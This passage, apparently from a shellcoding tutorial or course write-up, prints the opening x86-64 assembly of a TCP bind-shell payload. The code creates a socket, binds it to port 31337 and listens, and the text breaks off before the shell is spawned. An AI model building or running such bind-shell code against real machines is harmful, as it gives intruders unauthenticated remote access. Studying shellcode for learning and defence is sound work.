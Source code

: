 The initial `Assembly` version (`tcpbindshell-original.nasm`) is the following:

```nasm
global _start
section .text

_start:

	xor rax, rax
	xor rdi, rdi
	xor rsi, rsi
	xor rdx, rdx
	xor r8, r8

	push 0x2
	pop rdi

	push 0x1
	pop rsi

	push 0x6
	pop rdx

	push 0x29
	pop rax

	syscall

	mov r8, rax

	xor r10, r10
	push r10
	push r10

	mov byte [rsp], 0x2

	mov word [rsp + 0x2], 0x697a

	mov rsi, rsp

	push r8
	pop rdi

	push 0x10
	pop rdx

	push 0x31
	pop rax

	syscall

	push r8
	pop rdi

	push 0x1
	pop rsi

	push 0x32
	pop rax

	syscall

	mov rsi, rsp

```